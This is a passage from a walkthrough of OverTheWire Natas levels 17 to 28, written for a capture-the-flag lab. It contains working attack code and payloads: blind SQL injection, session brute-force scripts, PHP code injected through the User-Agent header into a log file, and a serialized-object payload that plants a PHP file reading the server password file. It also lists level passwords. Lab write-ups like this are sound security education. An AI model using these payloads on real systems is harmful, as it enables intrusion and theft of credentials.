IF(2<1,'yes','no');
```
This expression returns 'no', since 2 is not smaller than 1.  
So, combining together the IF, and the SLEEP, we need to create something like this:  
```sql
natas18" AND IF("password LIKE BINARY "A%",SLEEP(5),"anything")
```  
The third argument can be literally any string, it does not matter, since we do not get any textual response from the server  
The password for level 18 is:  
`8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq`

**Natas Level 18**  
http://natas18.natas.labs.overthewire.org/  
username: `natas18`  
password: `8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq`  

Okay, this one is a little bit tricky, because this task includes some basic session management/manipulation. Before diving deep into this task, let's talk about what session really is.  
The session is basically a collection of informations about you stored by the website.   
There are 3 main steps for a session creation to a specific websitev visitor:  

1. The server creates a 32 digit hexadecimal value, to identify the user.
2. The servers sends a cookie, with the name PHPSESSID to the user's system. This cookies helps the server later to identify the current visitor.
3. Meanwhile on the server, a temporary file is created and stored in a directory, with the prefix sess_

For example, a PHPSESSID would look like: 77616EE9FBD2F0C6987D1CEE10427E64, and the prefixed file on the server would be: sess_77616EE9FBD2F0C6987D1CEE10427E64.  
We need to work with this PHPSESSID now. Thanks to natas, we start things slowly. There will be no crazy 32 digit hexadecimal numbers for this task, but a simplified version takes place(which is not recommended in production sites).  
Our task is to log in as admin  
  

We could try to guess the password/username...well...we should not.  
Instead, let's take a good look at the source code(View sourcecode button)  
The whole thing stars at the following lines:  

```php
$showform = true;  
if(my_session_start()) {  
```
The main logic basically tries to prevent us setting the session admin variable to 1. However, that's what we need to obtain the password for the next level. In this case, the session identifier is a really easy one. It's just a simple, numerical variable instead of a 32 digit hexadecimal value, so it should be pretty easy to replace it. What's the point of replacing it?  
Well, this number identifies us in the server. My starting number is 438, and i'm not an admin. Maybe, someone else is...  
This line here is very important to us:

```php
$maxid = 640; // 640 should be enough for everyone  
```

It means that for this particular scene, there are a maximum of 640 session identifiers.  
So, we can iterate through them. We could not do that, for a properly implemented session identifier.  
By iterating, i mean that we changes the values from 1 to 640, one after another.  
For that, we need some external help. I'm going to use PHP's CURL library. You can find the file named as task18.php  

```php
$url = "http://natas18.natas.labs.overthewire.org/index.php?debug=true";
```

We start a for loop at 0, iterating all over the 648.  
The `curl_setopt($ch, CURLOPT_COOKIE, 'PHPSESSID=' . $i);` sets the session id of the current request equal to the current number in the loop. For example: 0 for the first request, 1 for the second request, etc...  
In the `CURLOPT_POSTFIELDS` property, we always send the `"username=admin&password=admin"` string, it acts like as if we would always fill the input form's username and password.  
We can write out the current PHPSESSID variable with:  

```php
echo "trying with {$i}...";
echo "\n";
```

However, we are interested in one substring of the response. If the response's text contains the text that we are logged in as admins, we are okay. We can check it with this line:  
```php
if(strpos($output,"You are an admin.") !== false)
```
If we are logged in as admins, that means that we have the password for the next level in the text, too.  
The password for level 19 is:  
`8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s`

**Natas Level 19**  
http://natas19.natas.labs.overthewire.org/  
username: `natas19`  
password: `8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s`  

After filling in the current password, the page displays us an important message:  
```text
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...  
```

Let's inspect the current session id: For example: fill in Username:`admin`, and Password:`admin`. After that, we can inspect in the Developer Tools, that we've received a Cookie, named PHPSESSID with a value of: '3338332d61646d696e' (It's just mine, yours will be different probably)  
The warning said, that the id's are not sequential. Let's open up this page again, but in your browser's private/incognito mode, and do the process again.  

```text
3438332d61646d696e
```  
and, if we do that again...  
```text
3534362d61646d696e
```

Well, they are not sequental, but there are some similarities in them. We can say, that they share the string '2d61646d696e' at the end, and the beginning is different. They look like hexadecimal characters to me. Let's be sure about that, and convert them back to ascii characters:  
```text
2d61646d696e = -admin
```
So there's always a constant suffix for the identifiers at the beginning, which is '-admin'  
However everything before that looks really sequential to me:  

- 33
- 34
- 35

With this knowledge, we can basically repeat the previous request, but we need to create a proper session id. The code for that can be found in 'task19.php':  
The most important part is:

```php
function ascii2hex($ascii) 
{
    $hex = '';
    for ($i = 0; $i < strlen($ascii); $i++) {
      $byte = strtoupper(dechex(ord($ascii[$i])));
      $byte = str_repeat('0', 2 - strlen($byte)).$byte;
      $hex.=$byte;
    }
    $hex = strtolower($hex);
    return $hex;
}
```

This function creates a hex representation of an ascii value. We need to call this function like that: 
```php
$currentSessionId = ascii2hex($i."-admin");
```


Everything after that is basically the same as in the previous task. Look for the string in the response, and you can get the password for level 20.  
The password for level 20 is:  
`guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH`


**Natas Level 20**  
http://natas20.natas.labs.overthewire.org/  
username: `natas20`  
password: `guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH`    

This challenge currently has a bug which makes it impossible to finish.

The password for level 21 is:  
`89OWrTkGmiLZLv12JY4tLj2c4FW0xn56`

**Natas Level 21**  
http://natas21.natas.labs.overthewire.org/  
username: `natas21`  
password: `89OWrTkGmiLZLv12JY4tLj2c4FW0xn56`  


At the beginning of the task, there is a message, which says:  
```text
Note: this website is colocated with http://natas21-experimenter.natas.labs.overthewire.org
```
This means to us that they basically share the same session storage.   
In such cases, the site's developer need to make sure the each sites have a proper protection against attacks.  
Let's look at the first site's code with the 'View sourcecode' button:  

```php
function print_credentials() { /* {{{ */  
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) 
    {  
        print "You are an admin. The credentials for the next level are:<br>";  
        print "<pre>Username: natas22\n";  
        print "Password: <censored></pre>";  
    } 
    else 
    {  
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";  
    }  
}  
```
Nothing interesting, nothing to bypass here. We need to have a variable, named `admin` in the session variable, to get the password for the next level. Let's visit the other page, however: Enter the same username and password for `http://natas21-experimenter.natas.labs.overthewire.org/` as you did for `http://natas21.natas.labs.overthewire.org/` By looking at the experimenter site, we gate a similar warning just as before, on the original site:  
```text
Note: this website is colocated with http://natas21.natas.labs.overthewire.org
```
Great! Let's look at the source code right away: We can see, that there are a lot more content that in the previous one. If we look line by line, the first segment looks really promising to us:  

```php
if(array_key_exists("submit", $_REQUEST)) 
{  
    foreach($_REQUEST as $key => $val) {  
        $_SESSION[$key] = $val;  
    }  
}  
```
It basically says, that if we submit something, ALL of the form's variables are going our session. We could create a hidden input, with the name `admin` and the value of `1`. Let's try that! Change the form's HTML code from:  

  
  
to:  
  
  

With this little modification, after submitting the form, we inject one more value to the session.  
There is one important thing, however. The PHPSESSID variables are different in these pages. We've only set the admin=1 to our session in the `http://natas21-experimenter.natas.labs.overthewire.org` page. So, in order to carry these values to the default page, we need to grab our PHPSESSID value from the experimenter page, and paste it to the default page. So, the steps are:

1. Press F12 to open the developer tools
2. Open the `Application` page
3. Click `Cookies`
4. Choose the current website
5. Look for the `PHPSESSID` Name(it should be the only one), and copy the value.
6. Go back to the original `http://natas21.natas.labs.overthewire.org` site.
7. Open developer tools with F12
8. Open the `Application` page
9. Click `Cookies`
10. Choose the current website
11. Look for the `PHPSESSID` Name(it should be the only one)
12. Paste the copied value to the Value cell.
13. Close the developer tools window.
14. Hit F5, or refresh the page.
15. You should see the password for the next level, because we've brought the admin privileges from the experimenter site to here.

The password for level 22 is:  
`91awVM9oDiUGm33JdzM7RVLBS8bz9n0s`

**Natas level 22**  
http://natas22.natas.labs.overthewire.org/  
username: `natas22`  
password: `91awVM9oDiUGm33JdzM7RVLBS8bz9n0s`  

After filling in the login details, the page looks....empty. Let's look at the source code. The code looks pretty simple. On the page, there is an if statement, which says:  

```php
<?php  
    if(array_key_exists("revelio", $_GET)) 
    {
        print "You are an admin. The credentials for the next level are:<br>";  
        print "<pre>Username: natas23\n";  
        print "Password: <censored></pre>";  
    }  
?>  
```
So, if we do something like: `http://natas22.natas.labs.overthewire.org/?revelio` We should get the key. Let's try it. Well, nothing happens. We get back the original, empty page. Something however is different. The typed url parameter is missing from the page. It means that some kind of redirection happend, that cleared any existing url parameter. Maybe if we could grab the state before redirection, we could get the password. There is a soluion for that problem, at 'task22.php' The file contains the basic curl setup, with two important things: The url is: 

```url
http://natas22.natas.labs.overthewire.org?revelio&admin=1
```
And the important curl parameter is:  

```php
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, false);
```
Let's look at [Curl's website](https://curl.se/libcurl/c/CURLOPT_FOLLOWLOCATION.html) to get an explanation for this parameter:

> A long parameter set to 1 tells the library to follow any Location: header that the server  sends |as part of an HTTP header in a 3xx response. The Location: header can specify a relative or an absolute URL to follow.

According to this, if we set this parameter to 'false', we can get the code of the page before the redirection. Run the 'task22.php' script to get the body of the page, before redirection.

The password for level 23 is:  
`qjA8cOoKFTzJhtV0Fzvt92fgvxVnVRBj`

**Natas level 23**  
http://natas23.natas.labs.overthewire.org/  
username: `natas23`  
password: `qjA8cOoKFTzJhtV0Fzvt92fgvxVnVRBj` 

This level is pretty simple, however it would look confusing for the first time(it was confusing for me too). There is no crazy session stealing/hijacking/all that stuff, we just need to type in a password. The password has two criteria, however:  

- It should contain the string `iloveyou`  
- It should be bigger than 10  

....what? For the answer, let's look at [This page](https://www.php.net/manual/en/language.types.string.php#114523)  

> The value is given by the initial portion of the string. If the string starts with valid numeric data, this will be the value used. Otherwise, the value will be 0 (zero).  

So, we need to craft a string, that STARTS with a number bigger than 10, and contains the string 'iloveyou'. For example:  

- 42iloveyou
- 11iloveyou

After filling in one of these passwords, we get the password for the next level.

The password for level 24 is:  
`0xzF30T9Av8lgXhW7slhFCIsVKAPyl2r`  

**Natas level 24**  
http://natas24.natas.labs.overthewire.org/  
username: `natas24`  
password: `0xzF30T9Av8lgXhW7slhFCIsVKAPyl2r` 

Another password guessing round. This time, it got me at the first sight.  
The main problem we have is this line:  
```php
if(!strcmp($_REQUEST["passwd"],"<censored>"))  
```

We need to compare our password with something that we dont even know, and we even need to reverse it. At first, let's see what [strcmp really does](https://www.w3schools.com/php/func_string_strcmp.asp)  The function can returns 3 different values:  

> 0 - if the two strings are equal  
> < 0 - if string1 is less than string2  
> \> 0 - if string1 is greater than string2  

Clearly, it's not too much help for us. So i wondered on the internet, searching for any kind of strcmp vulnerability, and i've found [one](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016) It says, that 'strcmp had some issues when comparing a string to something else.'

So, in this case, let's modify our url a little bit: we need to change our passwd=teszt to passwd[]=teszt, basically creating an array from our passwd varible. http://natas24.natas.labs.overthewire.org/?passwd[]=teszt. After loading the url, we get a warning, that says something like this:  

```text
Warning: strcmp() expects parameter 1 to be string, array given in /var/www/natas/natas24/index.php on line 23  
```

Clearly, strcmp does not like the array input, and warns us. What is important to us however, is that we've gained the password, due to this vulnerability.  
The password for level 25 is:  
`O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx`

**Natas level 25**  
http://natas25.natas.labs.overthewire.org/  
username: `natas25`  
password: `O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx`  

This is going to be a bigger one. Probably, one of the most complex task among the Natas challenges.  
So. We've got a long text, and in the upper-right corner, a dropdown, with some possible options:  

- de
- en

If we pick a value, text changes to a selected language, with a reload. Let's look at the source code, section by section, because it is important to understand, what is happening here. The first php block that executes in the page, is the following:

```php
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?> 
```

The 'listFiles' function is the following:

```php
function listFiles($path){  
    $listoffiles=array();  
    if ($handle = opendir($path))  
        while (false !== ($file = readdir($handle)))  
            if ($file != "." && $file != "..")  
                $listoffiles[]=$file;  

    closedir($handle);  
    return $listoffiles;  
}   
```
When the page loads, the listFiels directory gets the 'language' parameter, and we cannot modify this, in any way. the language directory contains these documents that we are displaying in the page. The server receives this parameter in the $_GET array. So, we can obviously use this, to our advantage, because when we select an element in the dropdown menu, we can see that the following happens in the url: 'http://natas25.natas.labs.overthewire.org/?lang=en'

For now, I've selected the option 'en'. We will see later, what we can do with this parameter, but before that let's take a good look at the 'setLanguage' function.

```php
function setLanguage(){  
    /* language setup */  
    if(array_key_exists("lang",$_REQUEST))  
        if(safeinclude("language/" . $_REQUEST["lang"] ))  
            return 1;  
    safeinclude("language/en");   
}  
```
The most important part is the `safeinclude` function. Aside from that, the server checks if there is a 'lang' variable set in the request. If it is set, the 'safeinclude' function kicks in. Otherwise, the 'safeinclude' function runs with a string parameter "language/en". Let's go back to the part, where the 'lang' variable is set:  


```php
function safeinclude($filename){  
    // check for directory traversal  
    if(strstr($filename,"../")){  
        logRequest("Directory traversal attempt! fixing request.");  
        $filename=str_replace("../","",$filename);  
    }  
    // dont let ppl steal our passwords  
    if(strstr($filename,"natas_webpass")){  
        logRequest("Illegal file access detected! Aborting!");  
        exit(-1);  
    }  
    // add more checks...  
  
    if (file_exists($filename)) {   
        include($filename);  
        return 1;  
    }  
    return 0;  
}  
```
There are multiple checks in this function for some potential attack methods:  

- At first, it checks if there are any part of the string that contains the substring "../". If there is, the function replaces any - occurrence of "../" to "".  
- After that, the function also checks for the substring "natas_webpass". In case if someone wants to directly access the natas_webpass directory. If such thing happens, the function immediately stops.  
- And finally, the function checks if the file even exists.  

At first sight, the code `$filename=str_replace("../","",$filename);` is pretty interesting, because we can easily outsmart it. For example, if '$filename' would be "....//", the str_replace would transform it to "../", because if we remove "../" from "...//", we get "../".

Now, with this information, try to look at the log file, using the 'lang' query parameter. We can experiment with this, for example: 

```text
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//
```
This would include /var (obviously, it fails)  

```text
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//
```
This would include /var/www (obviously, it fails)

Let's take a look at the `logRequest` function:

```php
function logRequest($message)
{  
    $log="[". date("d.m.Y H::i:s",time()) ."]";  
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];  
    $log=$log . " \"" . $message ."\"\n";   
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");  
    fwrite($fd,$log);  
    fclose($fd);  
}  
```


There is a file,"/var/www/natas/natas25/logs/natas25_" . session_id() .".log", where session_id() is the current PHPSESSID variable value. Grab the value using the Developer Tools:  

1. Select the Application tab
2. On Storage, click Cookies
3. Select the current website
4. Get the PHPSESSID value (should look something like this: qqkgms5ehb8negkg068l0mtgfg)

In my case, the url will be something like this:
```text
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//natas/natas25/logs/natas25_qqkgms5ehb8negkg068l0mtgfg.log
```

You only need to change the qqkgms5ehb8negkg068l0mtgfg part of the url, because the server file structure is the same.By running this url, we get the content of the log file. Cool. Not, it would be really good, if we could print something usable in this file. Lets try something out.

```php
<?php
$url = "http://natas25.natas.labs.overthewire.org/?lang=....//....//....//natas/natas25/logs/natas25_qqkgms5ehb8negkg068l0mtgfg.log";
$ch = curl_init ($url);
curl_setopt($ch, CURLOPT_USERPWD,"natas25:O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx");  
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_COOKIE, "PHPSESSID=qqkgms5ehb8negkg068l0mtgfg");
curl_setopt($ch, CURLOPT_USERAGENT, '<?php echo "This is a string from echo, yay!"; ?>');
$output = curl_exec ($ch);
curl_close($ch);
echo $output;
?>
```

You can see a basic CURL request, to the natas25 server, using the same url as we did before, but we are going to use a new parameter, called `CURLOPT_USERAGENT`. With this, we can set the User-Agent string that the curl request is going to send to the server. For now, we send a very basic trick 
```php 
<?php echo "This is a string from echo, yay!"; ?>
```
Our goal is, when we run this script, and we visit the page again, we should see `This is a string from echo, yay!` in the printed-out log file.

After running the script, reload the page:


There it is! We can see our string that we've just sent in the User-Agent string! Let's go a little bit further: Change the part:

```php
curl_setopt($ch, CURLOPT_USERAGENT, '<?php echo "This is a string from echo, yay!"; ?>');
```  
to:  

```php
curl_setopt($ch, CURLOPT_USERAGENT, '<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>');
```  

Hopefully, we can print out the password to the log file. After running the modified script, and refreshing the webpage:  

  

We did it! We've got the password!
The password for level 26 is:  
`8A506rfIAXbKKk68yJeuTuRq4UfcK70k`

**Natas level 26**  
http://natas26.natas.labs.overthewire.org/  
username: `natas26`  
password: `8A506rfIAXbKKk68yJeuTuRq4UfcK70k`  

After filling in the password, and the username, the page asks us to fill in four different values:  
- X1
- Y1
- X2
- Y2

If we do this, for example:  
- X1: 10
- Y1: 10
- X2: 50
- Y2: 50

We get an image as a result, with a black background, showing a line, colored with red. The starting and ending coordinates of the line are the exact ones that we've given before.  
After submitting this form multiple times, for example:  
- X1: 10
- Y1: 40
- X2: 70
- Y2: 5

We can see, that all of our previous commands have been saved, and they are displayed for us in the image with the black background. Let's review the source code to learn, what we can do with these wonderful red lines, to give us the password for the next level. There are a bunch of defined functions in the page, we will review them later. Let's focus on the first server side command that is executed on the page:

```php
session_start();  
if (array_key_exists("drawing", $_COOKIE) ||  
    (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&  
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
    $imgfile="img/natas26_" . session_id() .".png";  
    drawImage($imgfile);  
    showImage($imgfile);  
    storeData();  
}  
```


Okay, we've got something here. That piece of code looks for a cookie, called "drawing", and next to that, it checks for the possible presense of four GET parameters: x1,y1,x2,y2 - These are the four values that we've just filled in before. The first line in the if statement is basically tells us the name of the image the we are vieing:  

```php
$imgfile="img/natas26_" . session_id() .".png";
```
It uses the session_id, as a unique identifier. After that, the filename is passed to the 'drawImage' function  

```php
function drawImage($filename)  
{  
    $img=imagecreatetruecolor(400,300);  
    drawFromUserdata($img);  
    imagepng($img,$filename);  
    imagedestroy($img);  
}  
```


The only interesting part here is the 'drawFromUserdata' line. Let's look at the following:  

```php
if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
```
This line of code check for a cookie called `drawing`, and if it founds on, base64 decodes it and unserializes it. As the official [PHP Documentation mentions](https://www.php.net/manual/en/function.unserialize.php):  

> Warning Do not pass untrusted user input to unserialize() regardless of the options value of allowed_classes. Unserialization can result in code being loaded and executed due to object instantiation and autoloading, and a malicious user may be able to exploit this.

Let's look at the value of this cookie:  

Let's go back to http://natas26.natas.labs.overthewire.org/ and open the developer tools by pressing F12. Let's select the application tab. Under the cookies section, we can see a cookie, named `drawing`. It's value should be **something** like this:

```
YToyOntpOjA7YTo0OntzOjI6IngxIjtzOjE6IjEiO3M6MjoieTEiO3M6MToiMiI7czoyOiJ4MiI7czoxOiIzIjtzOjI6InkyIjtzOjE6IjQiO31pOjE7YTo0OntzOjI6IngxIjtzOjI6IjIwIjtzOjI6InkxIjtzOjI6IjIwIjtzOjI6IngyIjtzOjI6IjUwIjtzOjI6InkyIjtzOjI6IjUwIjt9fQ%3D%3D
```
If we url decode, and base64 decode this string, we get something similar:  
```json
a:2:{i:0;a:4:{s:2:"x1";s:1:"1";s:2:"y1";s:1:"2";s:2:"x2";s:1:"3";s:2:"y2";s:1:"4";}i:1;a:4:{s:2:"x1";s:2:"20";s:2:"y1";s:2:"20";s:2:"x2";s:2:"50";s:2:"y2";s:2:"50";}}
```
These are the values we've given to the input fields before. Based on the previous information, this cookie can be a possible input for some malicious code. Let's use this to our advantage! We have a Logger class at the top of the site's code, which obviously does some basic logging somewhere else in the application, when we use it. We have the option to overwrite this Logger class in the following way. In the `task26.php`, you can see the following:  

```php
<?php
    class Logger {
        private $logFile;
        private $initMsg;
        private $exitMsg;
        
        function __construct(){
            $this->initMsg="heyyyyyy\n";
            $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
            $this->logFile = "/var/www/natas/natas26/img/randomphpfilename.php";
        }
    }
    echo(base64_encode(serialize(new Logger()))."\n");
?>
```

What we did here, is basically overwrite the functionality of the Logger class. Thanks to the `unserialize` function mentioned before, we have the ability to load this class into the server side code. Let's run this php code, to get the base64 encoded string of the serialized class. It should be **something** like this:  

```text
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0ODoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcmFuZG9tcGhwZmlsZW5hbWUucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6OToiaGV5eXl5eXkKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NjM6Ijw/cGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7ID8+CiI7fQ==
```

Now, switch back to our opened Developer Tools, and replace the value of the `drawing` cookie with our new string. If that's completed, let's reload the page. It's possible, that we see some error messages, like this:

```text
Fatal error: Uncaught Error: Cannot use object of type Logger as array in /var/www/natas/natas26/index.php:105 Stack trace: #0 /var/www/natas/natas26/index.php(131): storeData() #1 {main} thrown in /var/www/natas/natas26/index.php on line 105
```

It does not matter at this point. However, let's load the following file to a new tab:
```text
http://natas26.natas.labs.overthewire.org/img/randomphpfilename.php
```
If everything's correct, you should see the value of the file at `/etc/natas_webpass/natas27`, maybe more than one time. But that's good, since we've successfully injected a code, outside from the server, and it replaced the behaviour of the code.  

The password for level 27 is:  
`PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3`

**Natas level 27**  
http://natas27.natas.labs.overthewire.org/  
username: `natas27`  
password: `PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3`  

Let's click on the `View sourcecode` to prepare ourselves:  
The very first thing that they provide to us is an SQL CREATE command, which looks like the following:

```sql
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```
So, we have the basic shape of our table that we need to work with.

The very first thing that happens is the following:  
```php
if(array_key_exists("username", $_REQUEST) and array_key_exists("password", $_REQUEST)) {
```

So, it checks for the existence of the `username` and the `password` keys in the request. We can send these parameters, using the given form in the index.php page. After connecting to the database, we have the following line:  

```php
if(validUser($link,$_REQUEST["username"])) {
```
The functions checks for the username inside the `validUser` function. With `mysqli_real_escape_string`, it removes most of the known special characters in the string, and places the clean string to the following query:

```php
$query = "SELECT * from users where username='$user'";
```
If the query finds a row with the given username, it returns true, otherwise, it returns false.

Let's look what happens when this user does not exist:

```php
//user doesn't exist
if(createUser($link,$_REQUEST["username"],$_REQUEST["password"])){
    echo "User " . htmlentities($_REQUEST["username"]) . " was created!";
}
```

The beginning of `createUser` function is very important:

```php
if($usr != trim($usr)) {
        echo "Go away hacker";
        return False;
    }
```

This if condition checks that if a username is not equal with a trimmed version of the username, it immediately ends the current function, and returns a False value. After that...  

```php
$user=mysqli_real_escape_string($link, substr($usr, 0, 64));
$password=mysqli_real_escape_string($link, substr($pass, 0, 64));
```

Again, it escapes most of the known harmful characters, and cuts down the username's length and the password's length to 64. The trimmed version then is inserted to the database:  

```php
$query = "INSERT INTO users (username,password) values ('$user','$password')";
$res = mysqli_query($link, $query);
```

Let's quickly check the most important parts of the `checkCredentials` function:  

```php
$user=mysqli_real_escape_string($link, $usr);
$password=mysqli_real_escape_string($link, $pass);

$query = "SELECT username from users where username='$user' and password='$password' ";
```

The cleaned username and password is passed to the query. If it finds a row for our given input, it gives back the contents of the row, using `dumpData`. So, with this information we need to get the password for natas28.
Most of the well known SQL injections are out of the question, since `mysql_real_escape_string` handles them.

We have an inportant information however: both the username and the password strings are cut down to the length of 64. Now, what happens when we send string with a length of 65?

Let's look at the following example, with two strings:

The first one is: 

```text
natas28
```
And the second one is:  
```
natas28                                                         n
```
The second string contains 57 spaces, plus the string 'natas28', plus the string 'n' at the end. The full length of this string is: 7+57+1=65  
What's important to mention here, is that the `trim` function handles only the **OUTER** boundaries of a string. It can do nothing with the whitespaces in the middle of the string. And since we have a closing 'n' letter at the end of the string, the trim functions leaves the spaces in the middle of the string as they were. However, the created username is still the trimmmed version. What is the trimmed version?  

```
natas28                                                         
```
The trimmed version is the string 'natas28' with 57 spaces. So finally, a string with a length of 64 is inserted to the database, and the same process goes for the password, too. We need to do a curl request for that, which you can found at the file, named `task27.php`. The most important part is the following:  
```php
curl_setopt($ch, CURLOPT_POSTFIELDS, "username=natas28+++++++++++++++++++++++++++++++++++++++++++++++++++++++++n&password=");
```
As you can see, we pass the string 'natas28', with 57 spaces, plus one character, 'n'. The password is sent as empty. Now, for the next part, we can use this carefully created string to extract the real natas28 username, and password. The second curl request should contain the following post fields:  
```php
curl_setopt($ch2, CURLOPT_POSTFIELDS, "username=natas28+++++++++++++++++++++++++++++++++++++++++++++++++++++++++&password=");
```

The username contains the strin 'natas28' and 57 spaces. Notice that we do not have any trim function during the existing username and password check method, so this way, we can be sure that we can match with the user we have created before.
The password for level 28 is:  
`skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4`

**Natas level 28**  
http://natas28.natas.labs.overthewire.org/   
username: `natas28`  
password: `skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4`  

This is one of the most complicated levels in this series. The first thing is, they do not provide us the server side source code, so we need to kinda figure out what is happening back there.  

If we write something into the input, for example: `computer`, the site returns us a collection of jokes that contains the word 'computer'. If we try to type some possible sql injections, like `'' OR 1`, it does not seem to be working, either, so there is some possible escaping mechanism on the server, when our text is inserted.

Also, if we type something into the input field, the url changes into something like this:

```text
http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPLOxD5BEouuJBr2svTs3MqTiW3pCIT4YQixZ%2Fi0rqXXY5FyMgUUg%2BaORY%2FQZhZ7MKM%3D
```

After the query parameter, we see some sort of ciphertext, base64 url encoded form. Let's try to mess with the url, remove some strings from it:

```text
Notice: Trying to access array offset on value of type bool in  
/var/www/natas/natas28/search.php on line 59  
Zero padding found instead of PKCS#7 padding  
```


So, behind the scenes, it uses a standard syntax to send us this encrypted data.  

According to the previous tasks, it uses some kind of MySQL database to store these jokes. The query we've got in the url could be the query we need to break. We broke te query before, by removing some characters from the ciphertext, resulting in an error message.  

For these kind of tasks, I recommend to find some pattern in the ciphertext, to proceed forward.

For that, I wrote a simple script in PHP to get the results of typing in the letter "A" to the input field, from the amount of 1 to 220.

```php
$finalStr = "";
for ($i=0; $i < 220; $i++) { 
    $queryData = str_repeat("A",($i + 1));
    $url = "http://natas28.natas.labs.overthewire.org/index.php";
    $ch = curl_init ($url);
    curl_setopt($ch, CURLOPT_USERPWD,"natas28:skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4");  
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch, CURLOPT_POST, 1);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array('Content-Type: application/x-www-form-urlencoded'));
    curl_setopt($ch, CURLOPT_POSTFIELDS, "query=".$queryData);
    $output = curl_exec($ch);
    curl_close($ch);
    $finalUrl = curl_getinfo($ch, CURLINFO_EFFECTIVE_URL);
    $retData = explode("search.php/?query=",$finalUrl);
    $currentStr = $retData[1];
    $currentStr = urldecode($currentStr);
    $finalStr .= ($i + 1);
    $finalStr .= "\n";
    $splited = str_split($currentStr,64);
    for ($h=0; $h < count($splited); $h++) { 
        $finalStr .= $splited[$h];
        $finalStr .= "\n";
    }
    $finalStr .= "\n";
}
echo($finalStr);
```

Please note, that a redirect is happening when we do a search, from the main page to a page called 'search.php'. For that, we need to use the following: 

```php
$finalUrl = curl_getinfo($ch, CURLINFO_EFFECTIVE_URL);
```
We need to search for some kind of repeating pattern in the ciphertext. For that, we need to split the ciphertext to pieces. I recommend trying out the following lengths: 16,32,64,128. For now, I found that 64 is the perfect choice. So, we grab the ciphertext, and split into pieces with a maximum of 64 lengths.

A sample query can be found for this in the file, named `task28_part_1.php`.  

The result should be something like the following:

```text
1  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPKjd8MKDZZIiKG51FNeoPjU  
vfoQVOxoUVz5bypVRFkZR5BPSyq/LC12hqpypTFRyXA=  
  
2  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPKYsNYgsg1hFJebd+JNix06  
SHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc=  
  
3  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJ8EmoxKU1njKubmw7+RDt1  
mi4rXbbzHxmhT3Vnjq2qkEJJuT5N6gkJR5mVucRLNRo=  
  
4  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPK02918sQNUadassvlSAHDH  
KSh/PMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY=  
  
5  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJLk0xdEarIh+MvTkV61Tlv  
rDuHHBxEg4a0XNNtno9y9GVRSbu6ISPYnZVBfqJ/Ons=  
  
6  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJ+DZedSJQqwrZX9tfUGM7W  
QcCYxLrNxe2TV1ZOUQXdfmTQ3MhoJTaSrfy9N5bRv4o=  
```


At the first line, we display how many "A"-s are sent to the server, and what was the response for that. At the beginning we find nothing interesting. However, after we see some bigger numbers...

```text
106
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJfIqcn9iVBmkZvmvU4kfmy  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr  
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr  
